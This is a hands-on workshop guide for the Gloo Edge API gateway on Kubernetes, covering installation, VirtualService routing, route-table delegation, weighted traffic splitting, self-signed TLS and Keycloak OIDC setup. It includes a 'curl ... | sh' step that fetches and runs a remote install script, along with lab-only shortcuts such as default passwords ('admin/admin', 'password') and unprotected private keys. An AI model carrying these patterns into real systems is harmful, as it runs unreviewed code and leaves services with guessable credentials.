


<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>Gloo Edge Workshop</center>


## Introduction <a name="introduction"></a>


Companies are modernizing their applications by splitting traditional monoliths into microservices.


These microservices are generally deployed on Kubernetes and one of the first requirements is to expose some of those services to the outside world.

The natural way to expose them is through a standard Kubernetes Ingress Controller (NGINX, HAproxy, …).


But it quickly becomes obvious that this approach is limited. The Ingress Kubernetes object doesn’t provide any way to define advanced routing policies and neither implement cross-cutting concerns.


More and more microservices are deployed and some functionalities (like external authentication) are implemented by different application teams.

It would be a better usage of resources if the teams focus on the business logic instead of reinventing the wheel.

A workaround implemented by many companies is to provide standard libraries used across microservices. But it forces all the teams to use the same programming language, or maintain the library for multiple programming languages. Which generates new challenges (slow down innovation, no global visibility for the security team, and so on).

Other functionalities such as rate-limiting and Web Application Firewalls cannot easily be implemented in microservices and generally require an API Gateway or Firewall running outside of Kubernetes.


Services that are outside of the Kubernetes cluster, such as an external API Gateway (implementing rate-limiting and WAF) usually require other means to automate its configuration. Thus it is not compatible with the GitOps model -- unless, your team takes the tremendous effort of creating a Kubernetes Operator that configures an external service using YAML, or more specifically Kubernetes Custom Resource Definitions. 



Gloo Edge is a modern Kubernetes-native API Gateway that provides all of the functionality from within Kubernetes.

We call it Kubernetes-native because it can be 100% configured by YAML (declarative API), so it is compatible with the GitOps deployment model.

Authentication/Authorization can be implemented at the API Gateway level and relevant information (like the email address of the authenticated user) can be passed to the Upstream microservice (through a header, for example).

It also provides functionalities like rate-limiting and Web Application Firewall, which can be configured through YAML.

Even if it runs on Kubernetes, a modern Kubernetes-native API Gateway can be used to route traffic to legacy applications (running in Virtual Machines, for example).


And it can also provide capabilities, like discovering functions running on AWS Lambda and routing traffic to them.

## Why is Gloo Edge built on top of Envoy?

Gloo Edge is a modern Kubernetes-native API Gateway built on Envoy. It provides all the capabilities described above. (and much more!)

Why would you choose an API Gateway based on Envoy?

There are many good reasons why.
- First of all, it’s a high-performance software written in C++.
- It’s driven by a neutral foundation (the CNCF, like Kubernetes), so its roadmap isn’t driven by a single vendor.
- And probably, more importantly, you have already adopted or you’re probably going to adopt a Service Mesh in the future. Chances are high that this Service Mesh will be Istio and if it’s not the case it will most probably be a Service Mesh based on Envoy.
- So choosing an API Gateway based on Envoy will allow you to get the metrics for your API Gateway and your Service Mesh in the same format. So you can troubleshoot issues in a common way, … It will make your life much easier to summarize.

Why would you choose Gloo Edge?
- It has been developed from the beginning with the idea to be configured 100% through yaml.
- It provides all the functionalities you expect from a modern API Gateway:
    - External authentication based on OAuth2, JWT, api keys, ...
    - Authorization based on OPA
    - Advanced rate-limiting
    - GraphQL capabilities at the edge such as discovery, automatic schema generation, schema stitching, ...
    - Web Application Firewall based on ModSecurity
    - Advanced transformation
    - Customization through Web Assembly
    - A Kubernetes-native developer portal called Gloo Portal
    - And much more

The above-mentioned features enable Platform Engineers as well as Development Teams to implement powerful mechanisms to manage and secure traffic, implement access control, transform requests and responses, and gain observability over their services.

However, the true power unfolds when combining the above-mentioned capabilities to achieve the desired outcome. 
In the labs that follow we present some of the common patterns that our customers use and provide a good entry point into the workings of Gloo Edge.


## Lab 1 - Deploy KinD cluster <a name="Lab-1"></a>

From within the VM open the terminal and navigate to the `/home/solo/workshops/gloo-edge` directory.

```
cd /home/solo/workshops/gloo-edge
```

To create a local Kubernetes cluster execute the script below:

```bash
./scripts/deploy.sh 1 gloo-edge
```

> Note: If you are running this workshop on a Mac with AirPlay Receiver enabled, you may encounter a port conflict for port 5000. Disable AirPlay Receiver in your settings and run the command again.

Then verify that your Kubernetes cluster is ready: 

```bash
./scripts/check.sh gloo-edge
```

The `check.sh` script will return immediately with no output if the cluster is ready.  Otherwise, it will output a series of periodic "waiting" messages until the cluster is up.


## Lab 2 - Deploy Gloo Edge <a name="Lab-2"></a>

With the cluster created our next step is to install Gloo Edge on the cluster. 


<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  it("Gloo Edge licence environment variables should not be empty", () => {
    expect(process.env.LICENSE_KEY).not.to.be.empty
  });
});
EOF
echo "executing test dist/workshop/build/templates/steps/deploy-gloo-edge/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the commands below to deploy the Gloo Edge Enterprise components:


```bash
export GLOO_VERSION=v1.16.7
curl -sL https://run.solo.io/gloo/install | sh
export PATH=$HOME/.gloo/bin:$PATH

helm repo add glooe https://storage.googleapis.com/gloo-ee-helm
helm repo update
helm upgrade --install gloo glooe/gloo-ee --namespace gloo-system \
  --create-namespace --version 1.16.4 --set-string license_key=$LICENSE_KEY --devel
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

describe("Check glooctl version", () => {

  it("GLOO_VERSION environment variable exists", () => {
    expect(process.env.GLOO_VERSION).not.to.be.empty;
    expect(process.env.GLOO_VERSION).to.be.a('string').and.satisfy(msg => msg.startsWith('v'));
  });

  it("cli version matches the required version: " + process.env.GLOO_VERSION, () => {
    let cli = chaiExec('glooctl version');
    expect(cli).to.exit.with.code(0);
    expect(cli).stdout.to.contain('"version":"' + process.env.GLOO_VERSION.substring(1) + '"');
    expect(cli).stderr.to.be.empty;
  });
});
EOF
echo "executing test dist/workshop/build/templates/steps/deploy-gloo-edge/tests/glooctl-version.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Use the following commands to wait for the Gloo Edge components to be deployed:

<!--bash
sleep 2
-->

```bash
kubectl wait pod -n gloo-system --all \
    --for=condition=Ready --timeout=120s
```
With the components up and running, we are ready to showcase Gloo Edge with practical examples.


## Lab 3 - Traffic management <a name="Lab-3"></a>

## Deploy Services

In this step, you will expose two services to the outside world using Gloo Edge.

First, let's deploy the **httpbin** service. `httpbin` is an open-source application useful to debug routing, headers in requests and responses, status codes, and so on. The public online version of it can be found at [httpbin.org](https://httpbin.org). 

Begin by creating a namespace and then deploy the service.

```bash
kubectl create ns httpbin

kubectl -n httpbin apply -f https://raw.githubusercontent.com/solo-io/workshops/master/gloo-edge/data/httpbin.yaml
```

We will additionally deploy the `echo` service, which replies with a static text.

```bash
kubectl create ns echo

kubectl -n echo apply -f https://raw.githubusercontent.com/solo-io/workshops/master/gloo-edge/data/echo-service.yaml
```

The currently deployed services are shown in the figure below.


## Understanding the `Upstream` resource

In Gloo Edge, an `Upstream` defines destinations where traffic can be routed. Upstreams tell Gloo Edge how to route traffic to the workloads behind it. Those workloads can be Kubernetes Services, aws EC2 instances, Lambda Functions, and so on.

> Note: To learn more about `Upstreams` check the [Upstream API documentation](https://docs.solo.io/gloo-edge/latest/reference/api/github.com/solo-io/gloo/projects/gloo/api/v1/upstream.proto.sk/#upstream)

This is cool and all, but do "I" have to create all the upstreams? *sad

No, Gloo Edge does it for you! It uses a discovery mechanism to create upstreams automatically! This covers the majority of the cases, but whenever you are using a resource that is not automatically discovered, remember that you can create the upstream manually using Kubernetes CRs.

After deploying the httpbin service, Gloo Edge discovers and creates an `Upstream` for it called `httpbin-httpbin-8000` (Gloo Edge uses the convention `<namespace>-<service>-<port>` for the discovered Upstreams).


Gloo Edge upstream discovery:

- (1) Watches for Kubernetes Services
- (2) Uses the information to create Upstream CR and applies those to the Kubernetes cluster 

To verify that the Upstream was created, run the following command: 

<!--bash
echo waiting for upstream httpbin-httpbin-8000 to be discovered
until glooctl get upstream httpbin-httpbin-8000 2> /dev/null
do
    printf '.'
    sleep 3
done
printf '\n'
-->

```bash
glooctl get upstream httpbin-httpbin-8000
```

The output shows the discovered upstream with an `Accepted` status: 

```
+----------------------+------------+----------+------------------------+
|       UPSTREAM       |    TYPE    |  STATUS  |        DETAILS         |
+----------------------+------------+----------+------------------------+
| httpbin-httpbin-8000 | Kubernetes | Accepted | svc name:      httpbin |
|                      |            |          | svc namespace: httpbin |
|                      |            |          | port:          8000    |
|                      |            |          |                        |
+----------------------+------------+----------+------------------------+
```

Similarly, Gloo Edge has created upstreams for the `echo` service and all the other existing services in the cluster. To list all of the upstreams execute the following command:

```bash
glooctl get upstream 
```

The upstream resources are stored in the cluster as Kubernetes Custom Resources. You can query those using kubectl, as shown below:

```bash
kubectl get upstreams -n gloo-system
```

The response should look something like below. Notice both the `echo-echo-v1-8080` and `httpbin-httpbin-8000` upstreams that were discovered as part of this exercise.

```
NAME                                                   AGE
default-kubernetes-443                                 28m
echo-echo-v1-8080                                      5m3s
extauth                                                28m
gloo-system-extauth-8083                               28m
gloo-system-gateway-443                                28m
gloo-system-gateway-proxy-443                          28m
gloo-system-gateway-proxy-80                           28m
gloo-system-gloo-9976                                  28m
gloo-system-gloo-9977                                  28m
gloo-system-gloo-9979                                  28m
gloo-system-gloo-9988                                  28m
gloo-system-gloo-fed-console-10101                     28m
gloo-system-gloo-fed-console-8081                      28m
gloo-system-gloo-fed-console-8090                      28m
gloo-system-glooe-grafana-80                           28m
gloo-system-glooe-prometheus-kube-state-metrics-8080   28m
gloo-system-glooe-prometheus-server-80                 28m
gloo-system-rate-limit-18081                           28m
gloo-system-redis-6379                                 28m
httpbin-httpbin-8000                                   5m19s
kube-system-kube-dns-53                                28m
kube-system-kube-dns-9153                              28m
rate-limit                                             28m
```

## Using `VirtualServices` you can route traffic to an `Upstream`

`VirtualService` is another Custom Resource Definition created by Gloo Edge. Those configure the Envoy proxy to route traffic to upstreams. Because the upstreams are already created, all we need to do is expose and route traffic to those with a virtual service. 

Let's create a Virtual Service that routes all incoming traffic to the `httpbin` service.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```
Now you can access the `httpbin` application in the web browser by running the following command:

```
/opt/google/chrome/chrome $(glooctl proxy url)
```

> Note: The nested command `glooctl proxy url` returns the endpoint in which the Gloo Edge Envoy proxy is exposed. Take the time and investigate `glooctl` and the utilities it exposes.

On the web browser, you'll see the `httpbin` application webpage.


Now, create another route entry for the `echo` service. First, let's consider what property of the request we should use to make the routing decision. Gloo Edge is versatile and you can route based on many properties such as headers, hostname, path-based routing, and so on.

While surfing the web end-users will type the hostname in the web browser address bar, for e.g.  `echo.solo.io`. After that the browser uses Domain Name Servers (DNS) configured on the operating system to resolve the typed hostname to an IP address.

After the resolution, a TCP connection is initiated to that IP address and the hostname (in this example `echo.solo.io`) is added to the request as an HTTP Header, specifically the `Host` header for HTTP/1, and as the `:authority` header for HTTP/2. Because Envoy internally uses the HTTP/2 version of this header we refer to it with the latter header.

In order to route traffic to the `echo` service for the hostname `echo.solo.io` we define the following virtual service.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
          - prefix: /
            headers:
            - name: ":authority"
              value: "echo.solo.io"
        routeAction:
          single:
            upstream:
              name: echo-echo-v1-8080
              namespace: gloo-system
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

Because public DNS servers don't have the entry (that we just made up), we have to manually specify the Host header in the request as shown below:

```
curl -H "Host: echo.solo.io" $(glooctl proxy url)/
```

The server responds with `version-1`, which indicates that traffic was properly routed to the `echo` service using the host header.
Instead of typing the host header in each request, we can configure the systems hosts file to resolve our sample domains. 

> **NOTE:** The `/etc/hosts` file is the first stop for the operating system to resolve a hostname. Thus when configuring the hostname with static entries those will be resolved by all applications.

Configure your hosts file to resolve the hostnames to the IP address of the proxy by executing the following command:

```
PROXY_IP=$(kubectl get svc -n gloo-system gateway-proxy \
    -o jsonpath='{.status.loadBalancer.ingress[0].*}')

echo | sudo tee -a /etc/hosts
echo "$PROXY_IP echo.solo.io" | sudo tee -a /etc/hosts
echo "$PROXY_IP httpbin.solo.io" | sudo tee -a /etc/hosts
```

<!--bash
if ! grep -q 'echo.solo.io' /etc/hosts; then
  PROXY_IP=$(kubectl get svc -n gloo-system gateway-proxy \
      -o jsonpath='{.status.loadBalancer.ingress[0].*}')

  echo | sudo tee -a /etc/hosts
  echo "$PROXY_IP echo.solo.io" | sudo tee -a /etc/hosts
  echo "$PROXY_IP httpbin.solo.io" | sudo tee -a /etc/hosts
fi
-->
To test that the hostnames are resolved open chrome and instead of the IP use the hostname. You can do so by running the following command:

```
/opt/google/chrome/chrome http://echo.solo.io
```

And sure enough, you should see the static text "version-1".

## Gloo Edge configuration to route traffic to a workload

There are quite a few resources involved to route traffic to the upstream. Those are visualized in the figure below.


We already got to know the `VirtualService` and the `Upstream` resource definitions.  So let's take a closer look at the `Gateway` resource. 

## `Gateway` configures the proxy to admit traffic

The `Gateway` resource configures the proxy to admit traffic for an address and a port.

As most services will want to expose services on port 443 and port 80, gateways that expose those ports are created by default. Verify that by listing all `Gateway` resources. 

```
kubectl get gateway -n gloo-system
```

Which prints the following.

```
NAME                AGE
gateway-proxy       58m
gateway-proxy-ssl   58m
```

To learn more let's print the definition of the `Gateway` named `gateway-proxy`.

```
kubectl get gateway gateway-proxy -n gloo-system -o yaml
```

This prints out the following definition:

```
apiVersion: gateway.solo.io/v1
kind: Gateway
metadata:
  name: gateway-proxy
  namespace: gloo-system
spec:
  bindAddress: '::'
  bindPort: 8080
  httpGateway: {}
  proxyNames:
  - gateway-proxy
  useProxyProto: false
```

This configures the proxy to admit traffic on port 8080 for all addresses. When checking the gateway `gateway-proxy-ssl` you'll see that it listens on port 8443 and additionally sets the ssl property to true.

## Delegation

In the previous example, we set up a `VirtualService` that routes traffic to two different applications. Those applications might be operated by different teams. At the surface, this might seem fine, but it violates the isolation principle of multi-tenant environments. If one team makes changes to the `VirtualService` (such as prototyping with a new app), a misconfiguration of theirs can break the routing for the apps of other teams. 

> Multi-tenant environments require tenant isolation to ensure that the mishaps of one tenant don't impact other tenants.

Gloo Edge provides a feature referred to as _delegation_ that makes routing configuration multi-tenant friendly. Using delegation routing configuration can be assembled from separate config objects. The root config object delegates responsibility to other objects, forming a tree of config objects. The tree always has a virtual service as its root, which delegates to any number of route tables. Route tables can further delegate to other route tables.

Use cases for delegation include:

- Allowing multiple tenants to own add, remove, and update routes without requiring shared access to the root-level Virtual Service
- Sharing route configuration between Virtual Services
- Simplifying blue-green routing configurations by swapping the target Route Table for a delegated route.
- Simplifying very large routing configurations for a single Virtual Service
- Restricting ownership of routing configuration for a tenant to a subset of the whole Virtual Service.


Let's rewrite your Virtual Service to delegate the routing to a `RouteTable`.

The first resource is the delegated Route Table. The second resource is a Virtual Service. Notice that there is a new `delegateAction` referencing the just created `RouteTable`.

```bash
kubectl apply -f - <<EOF
# ------------- Delegation resource -----------------------
apiVersion: gateway.solo.io/v1
kind: RouteTable
metadata:
  name: echo-routetable
  namespace: echo
spec:
  routes:
    - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
      routeAction:
        single:
          upstream:
            name: echo-echo-v1-8080
            namespace: gloo-system
# ---------------------------------------------------------
---
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
# ------------- Delegation action by reference ------------
        delegateAction:
          ref:
            name: 'echo-routetable'
            namespace: 'echo'
# ---------------------------------------------------------
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

Breaking the route table from the virtual service enables the separation of concerns. Development teams can maintain the route table and configure properties specific for routing to their services. Meanwhile, administrators can define higher-level options. Such as firewall rules, authentication of requests, and so on.

## Delegation By Label Selector

Another way to delegate is using labels. This approach helps you to create dynamic references thus you don't need to change the Virtual service for every new route table.

Let's add a label to the previously created route table.

```bash
kubectl apply -f - <<EOF
---
apiVersion: gateway.solo.io/v1
kind: RouteTable
metadata:
  name: echo-routetable
  namespace: echo
# ------------- Label to use as dynamic reference ---------
  labels:
    application-owner: team1
# ---------------------------------------------------------
spec:
  routes:
    - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
      routeAction:
        single:
          upstream:
            name: echo-echo-v1-8080
            namespace: gloo-system
EOF
```

And then configure the virtual service to select it using labels.

```bash
kubectl apply -f - <<EOF
---
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
# ------------- Delegation by label selector --------------
        delegateAction:
          selector:
            namespaces:
              - echo
            labels:
              application-owner: team1
# ---------------------------------------------------------
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

Now teams within the `echo` namespace can create multiple route tables on how to route traffic to their services without making changes to the virtual service. You can try the same commands as previous and everything works the same.

## Routing to Multiple Upstreams

In many cases, you need to route traffic to two different versions of an application. Such as testing a new feature using A/B Testing, and so on. In this step, you are going to update the Virtual Service to route traffic to two different `Upstreams`. 

Begin by creating a new deployment of the **echo** service (which represents another upstream), this time it returns the text `version-2`. Apply it to the cluster: 

```bash
kubectl -n echo apply -f https://raw.githubusercontent.com/solo-io/workshops/master/gloo-edge/data/echo-v2-service.yaml
```

Verify that the upstream for the second version of the echo service is created.

<!--bash
echo waiting for upstream echo-echo-v2-8080 to be discovered
until glooctl get upstream echo-echo-v2-8080 2> /dev/null
do
    sleep 3
done
-->

```
glooctl get upstream echo-echo-v2-8080
```

This will print the following:

```
+-------------------+------------+----------+------------------------+
|     UPSTREAM      |    TYPE    |  STATUS  |        DETAILS         |
+-------------------+------------+----------+------------------------+
| echo-echo-v2-8080 | Kubernetes | Accepted | svc name:      echo-v2 |
|                   |            |          | svc namespace: echo    |
|                   |            |          | port:          8080    |
|                   |            |          |                        |
+-------------------+------------+----------+------------------------+
```

You can route to multiple upstreams by updating the route table as follows: 

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteTable
metadata:
  name: echo-routetable
  namespace: echo
  labels:
    application-owner: team1
spec:
  routes:
    - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
      routeAction:
# ----------------------- Multi Destination ------------------
        multi:
            destinations:
            - weight: 5
              destination:
                  upstream:
                      name: echo-echo-v1-8080
                      namespace: gloo-system
            - weight: 5
              destination:
                  upstream:
                      name: echo-echo-v2-8080
                      namespace: gloo-system
# ------------------------------------------------------------
EOF
```

After applying the updated `RouteTable`, the proxy splits traffic equally across versions.


You can verify that requests are load-balanced equally by refreshing the page and verifying that the versions switch between **version-1** and **version-2** approximately equally. Or execute the command below that makes 10 requests in a row.

```
for i in {1..10}; do curl -s echo.solo.io; done
```

Output:

```
version-1
version-2
version-2
version-1
...
```

The output shows that the traffic is split across versions 1 and 2 of the echo app. This allows teams to gradually release traffic to a new version of an app, and such scopes the mishaps to only a small percentage of your users (in case there was something wrong with the new version of the service).

> NOTE: The change was entirely done in the RouteTable. The RouteTable resided within the team's namespace. Thus in multi-tenant environments, other teams are protected from the misconfigurations of each other.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

// ToDo update and check that both versions are returned v1 and v2
describe("Echo Service is available using host header \"echo.solo.io\"", () => {
  it('traffic routed to echo service when using the header "echo.solo.io"', () => 
    helpers.checkURL({ host: 'http://echo.solo.io', retCode: 200 }));
})

describe("httpbin receives requests that don't specify the host header", () => {
  it('traffic routed to httpbin when no host specified', () => 
    helpers.checkURL({ host: 'http://httpbin.solo.io', retCode: 200 }));
})

EOF
echo "executing test dist/workshop/build/templates/steps/traffic-management/tests/verify-routing.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 4 - Security and authentication <a name="Lab-4"></a>


In this step, you will explore some of the Gloo Edge features related to security and authentication. 

## Network Encryption - Server TLS

Traffic routes through many networking devices until it reaches the intended service. It is key for the traffic to be encrypted while traveling through these networking devices, and only the server should be able to decrypt and read the contents. For that reason, you need to secure your application using TLS.

Let's first create a private key and a self-signed certificate to be used in your virtual service:

<!--bash
  sudo rm -rf /etc/ssl/certs/root-ca.pem
  sudo rm -rf /usr/local/share/ca-certificates/root-ca.crt 
  sudo update-ca-certificates
-->

```bash
pushd $(mktemp -d)

## Create Root CA
step certificate create root-ca-edge root-ca.crt root-ca.key \
  --profile root-ca --no-password --insecure --not-after 87600h --kty RSA

## Create httpbin certificate
step certificate create httpbin.solo.io tls.crt tls.key --ca root-ca.crt \
    --ca-key root-ca.key --not-after 8760h --no-password --insecure \
    --san httpbin.solo.io --kty RSA 

# To fix CURL add the root ca to the system trusted CA's
sudo cp root-ca.crt /usr/local/share/ca-certificates/
sudo update-ca-certificates  
```

For chrome to trust the certificates signed by the root ca import it in the following location:

Open chrome at the following path: chrome://settings/certificates
Switch to 'Authorities' and Import the Root CA.

For Gloo Edge to make use of the certificate and the private key we need to store those as Kubernetes Secrets using the following command:

```bash
kubectl create secret tls upstream-tls --key tls.key \
   --cert tls.crt --namespace gloo-system

popd
```

With the secret created you have to update the virtual service to use it:

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
# ---------------- SSL config ---------------------------
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
# -------------------------------------------------------    
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
        delegateAction:
          selector:
            namespaces:
              - echo
            labels:
              application-owner: team1
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

Now the application is securely exposed through TLS. Open it in the browser using HTTPS.
```
/opt/google/chrome/chrome https://httpbin.solo.io
```

If you've added the Root CA certificate to your browser you will see the green key in the address bar, which indicates that the authentication of the server succeeded and that the connection is encrypted and secure.

Use curl to invoke an https endpoint of the httpbin service, like the one below.

```
curl https://httpbin.solo.io/get
```

Besides authenticating the server, another important authentication is of the client (or end-user) before it is permitted to query information or make changes.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("httpbin is available (https)", () => {
  it('is available', () => helpers.checkURL({ host: "https://httpbin.solo.io", retCode: 200 }));
})

EOF
echo "executing test dist/workshop/build/templates/steps/security-and-authentication/tests/https.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

## Authentication with OIDC (OpenID Connect)

In many use cases, you need to restrict the access to your applications to only authenticated users. 

OIDC (OpenID Connect) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this step, you will secure the **httpbin** application using an OIDC Identity Provider.

Let's start by installing Keycloak:

```bash
kubectl create ns keycloak
kubectl -n keycloak create -f https://raw.githubusercontent.com/solo-io/workshops/master/gloo-edge/data/keycloak.yaml
kubectl -n keycloak rollout status deploy/keycloak
```

Then, you need to configure it and create the following three users:

- User1 credentials: `user1/password`
  Email: user1@acme.com
  Subscription: Enterprise 

- User2 credentials: `user2/password`
  Email: user2@umbrella.com
  Subscription: Free

- Administrator credentials: `admin1/password`
  Email: admin1@solo.io

To configure Keycloak we need to retrieve the Admin token:

```bash
# Get Keycloak URL and token
export KEYCLOAK_ENDPOINT=$(kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}')

export KEYCLOAK_URL=http://${KEYCLOAK_ENDPOINT}:8080/auth

## Wait for keycloak to be receiving requests
timeout 60 bash -c "while ! echo exit | nc $KEYCLOAK_ENDPOINT 8080 > /dev/null; do printf '.'; sleep 1; done"
```

And then we can make requests to Keycloak to configure the client and the users:

```bash
export KEYCLOAK_TOKEN=$(curl -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
echo $KEYCLOAK_TOKEN

# Create initial token to register the client
read -r client token <<<$(curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"expiration": 0, "count": 1}' $KEYCLOAK_URL/admin/realms/master/clients-initial-access | jq -r '[.id, .token] | @tsv')

# Register the client
read -r id secret <<<$(curl -X POST -d "{ \"clientId\": \"${client}\" }" -H "Content-Type:application/json" -H "Authorization: bearer ${token}" ${KEYCLOAK_URL}/realms/master/clients-registrations/default| jq -r '[.id, .secret] | @tsv')
# Add allowed redirect URIs
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X PUT \
  -H "Content-Type: application/json" -d "{\"serviceAccountsEnabled\": true, \"directAccessGrantsEnabled\": true, \"authorizationServicesEnabled\": true, \"redirectUris\": [\"https://httpbin.solo.io/callback\"]}" $KEYCLOAK_URL/admin/realms/master/clients/${id}

# Add the group attribute in the JWT token returned by Keycloak
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "group", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "group", "jsonType.label": "String", "user.attribute": "group", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Add the subscription attribute in the JWT token returned by Keycloak
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "subscription", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "subscription", "jsonType.label": "String", "user.attribute": "subscription", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Create regular user for ACME Corp.
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user1", "email": "user1@acme.com", "enabled": true, "attributes": {"group": "users", "subscription": "enterprise"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create regular user for Umbrella Corp.
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user2", "email": "user2@umbrella.com", "enabled": true, "attributes": {"group": "users", "subscription": "free"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create admin user
curl -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "admin1", "email": "admin1@solo.io", "enabled": true, "attributes": {"group": "admin"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users
```

> **Note:** If you get a *Not Authorized* error, please, re-run this command and continue from the command that started to fail:

```
KEYCLOAK_TOKEN=$(curl -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```

The architecture looks like this now when omitting the `echo` services:



